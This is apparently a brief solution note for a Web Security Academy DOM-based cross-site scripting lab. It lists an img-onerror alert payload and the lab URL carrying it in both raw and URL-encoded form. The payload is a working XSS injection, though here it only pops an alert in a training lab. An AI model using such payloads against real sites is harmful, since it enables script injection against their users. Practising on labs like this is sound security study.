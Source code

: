  ## USE PAYLOAD
 '#<img src=x onerror=alert('XSS by Ranjan')>'

 ## UNCOADED PAYLOAD
 'https://0a180086031cdaca84c5fff700e300b2.web-security-academy.net/#<img src=x onerror=alert('XSS by Ranjan')>'

## ENCOADED PAYLOAD 
'https://0a180086031cdaca84c5fff700e300b2.web-security-academy.net/%23%3Cimg%20src%3Dx%20onerror%3Dalert('XSS%20by%20Ranjan')%3E'

